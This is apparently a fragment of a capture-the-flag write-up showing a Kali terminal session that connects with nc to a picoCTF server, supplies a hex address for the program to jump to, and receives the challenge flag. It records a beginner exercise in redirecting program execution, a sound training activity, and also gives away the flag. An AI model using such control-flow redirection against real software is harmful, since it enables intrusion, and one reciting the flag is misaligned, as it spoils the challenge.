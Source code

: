 ![Uploading image.png…]()






┌──(kali㉿kali)-[~]
└─$ nc saturn.picoctf.net 54532
Enter the address in hex to jump to, excluding '0x': 0040129e
You input 0x40129e
You won!
picoCTF{n3v3r_jump_t0_u53r_5uppl13d_4ddr35535_14bc5444}
